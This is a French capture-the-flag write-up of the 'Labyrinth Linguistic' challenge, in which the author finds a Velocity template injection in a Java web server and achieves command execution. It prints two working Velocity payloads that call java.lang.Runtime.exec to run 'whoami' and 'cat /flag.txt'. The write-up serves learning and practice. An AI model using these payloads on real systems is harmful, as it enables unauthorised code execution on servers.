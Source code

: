 # Labyrinth Linguistic - Nerumir

> Nous nous rendons sur une page web et explorons... Il y a un petit formulaire, je l'ai testé et j'ai trouvé une XSS mais rien d'autre. Nous avons également le code source (`backend`) en fichiers annexes.

- J'ai téléchargé les fichiers du challenge et j'ai lu le code, c'est un serveur web `java`. En lisant le code j'ai découvert `Velocity`. Et j'ai trouvé une faille d'injection de template. Donc code possiblement executable côté serveur donc `RCE`.

- J'ai essayé de voir sur internet les différentes choses possibles, rien ne semblait fonctionner car on avait que la variable `name`.. J'ai trouvé qu'on peut se servir de cette variable pour remonter via des méthodes `java` sur les classes de `java`. J'ai donc pu faire la `RCE`, d'abord pour trouver le flag et ensuite pour afficher son contenu... C'était facile de trouver son emplacement car il est indiqué dans le `Dockerfile` téléchargé.

`Payload` trouvé sur internet : 

```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

`Payload` adapté et fonctionnel (assez fastidieux, il a fallu y aller à tâtons et essayer des choses..) :

```
#set($str=$name.getClass().forName("java.lang.String"))
#set($chr=$name.getClass().forName("java.lang.Character"))
#set($ex=$name.getClass().forName("java.lang.Runtime").getRuntime().exec("cat /flag.txt"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

J'ai supprimé les retours à la ligne entre chaque caractère via les commandes vim et j'ai submit le flag obtenu.
